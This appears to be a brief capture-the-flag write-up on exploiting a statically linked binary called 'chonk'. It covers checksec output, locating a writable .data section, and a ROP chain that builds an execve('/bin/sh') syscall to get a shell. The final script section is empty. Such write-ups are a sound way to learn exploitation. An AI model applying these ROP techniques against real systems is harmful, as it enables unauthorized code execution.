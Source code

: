 ## chonk

* always checksec first
		
	```
	Arch:       amd64-64-little
	RELRO:      Partial RELRO
	Stack:      Canary found
	NX:         NX enabled -> cant inject shellcode
	PIE:        No PIE (0x400000) -> fixed addr
	SHSTK:      Enabled
	IBT:        Enabled
	Stripped:   No
	```
* ldd chonk: not a dynamic executable -> cant get addr from libc, therefore cant `Using system("/bin/sh") from libc`
*  the alternative way is using Syscall to `execve("/bin/sh", NULL, NULL)`

	* find "bin/sh" addr
		*  strings -a -t x chonk | grep "/bin/sh"
		* since the above step return the null, need to `hardcode the addr in ROP chain`
		* find a writable addr -> `readelf -S chonk | grep '\.bss\|\.data' `-> get addr of `.data`
		
			```
			readelf -S chonk | grep '\.bss\|\.data'
		  [18] .data.rel.ro      PROGBITS         00000000004a5f80  000a4f80
		  [21] .data             PROGBITS         00000000004aa0c0  000a90c0
		  [22] .bss              NOBITS           00000000004abac0  000aaac0
			```
	* ROP chain

		```
		# Constructing the ROP chain
		rop_chain = [
		    # Write "/bin/sh" to writable_addr
		    pop_rax_ret, bin_sh,               # Set rax = "/bin/sh\x00"
		    pop_rsi_ret, writable_addr,        # Set rsi = writable_addr
		    mov_rsi_rax_ret,                   # Write rax to [rsi] (writable_addr)
		
		    # Set up execve syscall
		    pop_rax_ret, execve_syscall_num,   # Set rax = 59 (execve syscall number)
		    pop_rdi_ret, writable_addr,        # Set rdi = writable_addr ("/bin/sh")
		    pop_rsi_ret, 0,                    # Set rsi = 0 (NULL for arguments)
		    syscall_ret                        # Trigger the syscall;
		]
		```
		
* script
